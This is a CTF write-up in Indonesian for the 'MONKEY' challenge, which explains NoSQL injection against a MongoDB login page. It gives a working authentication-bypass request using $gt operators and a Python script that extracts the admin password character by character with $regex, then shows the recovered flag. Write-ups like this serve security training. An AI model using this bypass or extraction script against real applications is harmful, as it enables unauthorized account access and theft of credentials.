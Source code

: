 # **MONKEY**

NoSQL injection adalah serangan yang ditujukan untuk melanggar keamanan aplikasi yang menggunakan database NoSQL. Serangan ini mirip dengan serangan SQL injection, tetapi ditargetkan pada database NoSQL yang menggunakan model datanya yang berbeda dengan database relasional.

Dalam serangan NoSQL injection, penyerang mencoba memanipulasi atau menyisipkan data yang tidak valid atau berbahaya ke dalam permintaan atau operasi database NoSQL. Tujuan utama serangan ini adalah untuk mendapatkan akses yang tidak sah ke data sensitif atau merusak integritas data dalam database NoSQL.
## **About the challenge**
Pada Challenge ini, Probleset meminta pemain untuk login sebagai admin dan memberikan halaman login serta akun guest:guest untuk masuk.

![monkey](./image/monkey1.PNG)
## **Solution**
Saya mencoba login dan hanya muncul pesan "Welcome, guest". Ditambah dengan gambar monyet yang sedikit ngeselin. Tujuan saya adalah untuk login sebagai admin. Setelah saya login sebagai admin, tidak ada flag yang tertera. Tempat injeksi yang mungkin adalah halaman login.

Tentu saja hal pertama yang saya lakukan adalah injeksi SQL, tetapi setelah mencoba-coba dengan halaman login untuk beberapa waktu, saya mengerti bahwa itu tidak ada hubungannya dengan SQL. Cara selanjutnya adalah mencoba NoSQL dan kemudian saya mendapatkan hasil yang sangat menarik. Dari injeksi awal, tampaknya basis data backend menggunakan MongoDB dan saya memutuskan untuk membaca sedikit lebih banyak tentangnya.

Secara sederhana, MongoDB bekerja seperti ini:

Request: ```login.php?user=admin&password=1```

```php
$collection->find(array(
    "username" => "admin",
    "password" => "1"
));
```
---------------------------
Username dan password dikumpulkan dari data yang masuk dan database langsung dicari menggunakan data tersebut. 
Lalu bagaimana jika kita dapat melewatkan objek atau array?

Request: ```login.php?user[$gt]=&password[$gt]=```
```php
$collection->find(array(
    "username" => array("$gt" => 1),
    "password" => array("$gt" => 1)
));
```
Ini akan menghindari skema Autentikasi dan akan memasukkan kita langsung ke akun pertama di database, yaitu admin! Jadi sekarang kita sudah masuk sebagai admin! Tetapi flag-nya adalah password admin jadi saya perlu mengekstraknya. Saya mencari di Google cara mengekstrak data tetapi tidak memberi saya banyak pilihan. Kemudian saya mengetahui tentang $regex yang digunakan untuk membandingkan karakter password satu per satu. Jadi berikut adalah logikanya:

saya menginisiasi permintaan dengan ```user=admin&password[$regex]=F.*```. Anda dapat melihat bahwa ini memberikan pengalihan ```302``` karena password dimulai dengan F (karena password adalah flag dan sesuai dengan aturan, flag dimulai dengan ```ForestyHC```). Untuk semua karakter lainnya, itu memberikan kode status ```200```. saya dapat dengan mudah mengotomatiskan ini untuk menemukan sisa password.

saya menggunakan script dibawah ini
```python
import requests
import string

#  I sure that password is the flag which starts with "ForestyHC{"
# and ends with "}"

flag = "ForestyHC{"
url = "http://103.167.136.89:10002/"

# Each time a 302 redirect is seen, we should restart the loop

restart = True

while restart:
    restart = False

    # Characters like *, ., &, and + has to be avoided because we use regex

    for i in string.ascii_letters + string.digits + "!@#$%^()@_{}":
        payload = flag + i
        post_data = {'username': 'admin', 'password[$regex]': payload + ".*"}
        r = requests.post(url, data=post_data, allow_redirects=False)

        # A correct password means we get a 302 redirect

        if r.status_code == 302:
            print(payload)
            restart = True
            flag = payload

            # Exit if "}" gives a valid redirect

            if i == "}":
                print("\nFlag: " + flag)

                exit(0)
            break
```
Skrip berfungsi sebagai berikut:

1) Karena kata sandi adalah flag, kita yakin bahwa kata sandi dimulai dengan ```ForestyHC{```sehingga hal ini dapat digunakan untuk memverifikasi apakah yang saya lakukan adalah benar.

2) Saya berasumsi bahwa karakter seperti ```+, * dan &``` tidak akan ada karena dapat mengganggu Regex (dan hokinya saya tidak ada!)

3) Skrip berhenti ketika saya mendapatkan pengalihan ```302``` ketika karakternya adalah } karena saya yakin bahwa karakter akhir akan menjadi } (lagi, karena kata sandi sama dengan flagnya).

![monkey2](./image/monkey2.jpeg)

And we got flag
```
ForestyHC{reject_humanity_return_to_monke_5543d8}
```
